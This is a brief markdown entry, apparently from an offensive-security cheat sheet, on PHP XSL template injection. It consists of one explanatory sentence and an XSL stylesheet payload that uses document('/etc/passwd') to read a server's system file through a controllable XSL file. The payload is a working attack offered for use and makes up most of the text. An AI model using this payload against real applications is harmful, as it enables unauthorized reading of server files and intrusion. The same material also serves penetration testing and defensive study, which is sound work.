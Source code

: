 # PHP XSL Template Injection

If you can control the XSL file in a PHP application you can potentially read file contents through error messages  

```xsl
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
        <xsl:copy-of select="document('/etc/passwd')"/>
</xsl:template>
</xsl:stylesheet>
```
